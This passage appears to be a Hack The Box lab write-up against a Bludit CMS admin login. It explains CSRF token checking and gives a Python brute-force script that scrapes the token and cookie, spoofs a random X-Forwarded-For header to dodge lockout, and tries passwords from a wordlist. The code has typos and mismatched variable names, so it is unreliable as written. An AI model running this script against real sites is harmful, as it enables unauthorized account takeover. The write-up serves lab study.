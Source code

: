 Analyzing Login Request
We can see that there is a CSRF token named tokenCSRF. Let’s check if the token is getting verified or not at the server end. For the initial request sent to the server, we get an HTTP 200 response. If we repeat the request we get an HTTP 301. This means that the CSRF token is getting verified at the server end. For this, we might need to create a script that will collect a valid CSRF token from the server and then send a new token with our request.

Let us create a script to perform the bruteforce. To write this script we need to check what happens if we enter a wrong password and what happens if we enter a correct one. We already know the HTTP Response for the Wrong password is 200. For any other response code we print out the username and password combo used and then check the validity of the username and password. Just providing a snippet of the code, full code can be found in this GitHub <a href="https://github.com/iammainul/htb-scripts/blob/main/bruteforce.py">repository</a>.

```python
 #Grabbing the CSRF Token and Cookie
 r = requests.get(f'http://{HOST}/admin/')
 csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-f0-9]*)"', r.text)
 #The cookie seemed to be hexadecimal,so we used the [a-f0-9] regex
 csrf = csrf.group(1)
 cookie = r.cookies.get('BLUDIT-KEY')

 #Declaring the X-Forwarded-For Header
 headers = {
   'X-Forwarder-For': f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
 }

 #Post data for login request
 data = {
   'tokenCSRF':csrf,
   'username':user,
   'password':password,
   'save':''
 }
 cookies = {
   ' BLUDIT-KEY': cookie
 }
#Sending the Login Request
 r = requests.post(f'http://{HOST}/admin/login', data=data, cookies=cookies, headers=headers, allow_redirects=False, proxies=PROXY)

 #Chelcs if the password is correct ot not
 if r.status_code !=200:
  print(f"{USER}:{password}")
  return True
 elif "password incorrect" in r.text:
  return False
#Brruteforce
wordlist = open('wordlist.txt').readlines()
for line in wl:
 line=line.strip()
 login ('fergus',line)
```
